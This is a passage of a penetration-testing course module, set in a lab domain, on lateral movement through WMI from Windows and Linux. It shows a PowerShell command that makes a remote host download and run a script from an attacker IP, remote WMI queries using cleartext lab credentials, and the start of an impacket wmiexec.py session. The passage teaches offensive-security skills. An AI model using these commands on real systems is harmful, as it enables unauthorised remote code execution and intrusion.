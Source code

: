 <pre><code class="language-powershell-session">PS C:\Tools&gt; Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" -ComputerName 172.20.0.52

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ProcessId        : 8084
ReturnValue      : 0
PSComputerName   :
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> The WMIC utility is deprecated as of Windows 10, version 21H1, and the 21H1 semi-annual channel release of Windows Server. This utility has been replaced by Windows PowerShell for WMI tasks. For more details, refer to <a href="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi" target="_blank">Chapter 7 - Working with WMI</a>. Note that this deprecation only affects the WMIC utility itself; Windows Management Instrumentation (WMI) remains unaffected. For further information, see the list of <a href="https://learn.microsoft.com/en-us/windows/deployment/planning/windows-10-deprecated-features" target="_blank">Windows 10 features no longer under development</a>.</p>
</div>
</div>
<h2>Lateral Movement From Linux</h2>
<p>Interacting with Windows Management Instrumentation (WMI) from a Linux system can be accomplished using various tools and libraries that support the WMI protocol. Below are some commonly used tools for this purpose. <code>wmic</code> is a command-line tool that allows you to interact with WMI from Linux. It provides a straightforward way to query and manage Windows systems. To install <code>wmic</code>, you need to install the <code>wmi-client</code> package. On Debian-based systems, you can install it using the following commands:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo apt-get install wmi-client
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  wmi-client
0 upgraded, 1 newly installed, 0 to remove and 73 not upgraded.
...SNIP...
</code></pre>
<p>Once installed, we can use <code>wmic</code> to run queries against a remote Windows machine. Here's an example of querying the operating system details:</p>
<pre><code class="language-shell-session">[!bash!]$ wmic -U inlanefreight.local/helen%RedRiot88 //172.20.0.52 "SELECT Caption, CSDVersion, OSArchitecture, Version FROM Win32_OperatingSystem"
CLASS: Win32_OperatingSystem
Caption|CSDVersion|OSArchitecture|Version
Microsoft Windows Server 2019 Standard|(null)|64-bit|10.0.17763
</code></pre>
<p>Additionally, <code>impacket</code> includes the built-in script <a href="https://github.com/fortra/impacket/blob/master/examples/wmiexec.py">wmiexec.py</a> for executing commands using WMI. Keep in mind that <code>wmiexec.py</code> uses port 445 to retreive the output of the command and if port 445 is blocked, it won't work. If we want to omit the output, we can use the options <code>-silentcommand</code> or <code>-nooutput</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ wmiexec.py inlanefreight/helen:<a class="__cf_email__" data-cfemail="d785b2b385beb8a3efef97e6e0e5f9e5e7f9e7f9e2e5" href="/cdn-cgi/l/email-protection">[email protected]</a> whoami
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra
